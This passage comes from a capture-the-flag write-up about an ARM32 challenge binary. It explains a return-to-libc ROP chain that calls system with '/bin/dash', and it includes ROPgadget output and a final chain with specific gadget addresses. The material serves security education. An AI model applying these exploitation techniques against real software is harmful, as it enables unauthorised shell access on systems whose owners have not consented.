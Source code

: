In order to call a function using **ret-2-libc**, we need to set up the CPU registers as if the function was called normally, and finally return to the function.

Our target function is `system` which takes 1 argument, a pointer to a string representing the command to run. In ARM32, arguments are passed through registers `R0-R3`  and then onto the stack. So if we can set the `R0` register to the address of the string `/bin/dash` and then makes `LR` points to the `system` function, we can spawn a shell.

Our ROPChain should look like:
```plaintext
+0:   @pop_r0_lr   <-- LR (when returning from main)
+4:   @bin_sh
+8:   @system
```

#### Finding relevant gadgets

We can enumerate the binary gadgets using `ROPgadget` (output has been reduced for clarity):
```bash
$ ROPgadget --binary=armory
Gadgets information
============================================================
0x00010530 : add fp, sp, #4 ; ldr r3, [pc, #0x18] ; add r3, pc, r3 ; mov r0, r3 ; bl #0x103cc ; mov r0, r0 ; sub sp, fp, #4 ; pop {fp, lr} ; bx lr
0x0001049c : add r1, r1, r1, lsr #31 ; asrs r1, r1, #1 ; bxeq lr ; ldr r3, [pc, #0x10] ; cmp r3, #0 ; bxeq lr ; bx r3
...
0x00010380 : pop {r3, lr} ; bx lr
...
0x000105b8 : mov r0, r3 ; sub sp, fp, #4 ; pop {fp, lr} ; bx lr
...
0x00010464 : sub r3, r3, r0 ; cmp r3, #6 ; bxls lr ; ldr r3, [pc, #0x10] ; cmp r3, #0 ; bxeq lr ; bx r3
0x00010548 : sub sp, fp, #4 ; pop {fp, lr} ; bx lr

Unique gadgets found: 94
```

There is no obvious gadgets for setting up `r0` to what we want. We can eventually branch `0x00010380 : pop {r3, lr} ; bx lr` with `0x000105b8 : mov r0, r3 ; sub sp, fp, #4 ; pop {fp, lr} ; bx lr` but `sp` is modified and thus, the stack layout will be undefined, making our exploit potentially fail.

What we can still do to demonstrate ROP on ARM is, using the gadget that call `system` in the `evil` function, discard the loading of the `"/bin/dash"` string into `r3` and use the gadget at `0x10380` to load it manually with ROP.

![evil function dissasembly](/img/pwn-hackropole_armory/evil-disass.png)

Our ROPChain will then look like:
```plaintext
+0: 0x00010380  ; @g_mov_r0_r3
+4: 0x00010650  ; @/bin/dash (retrieved in IDA)
+8: 0x0001053C  ; @evil_system_stub
```
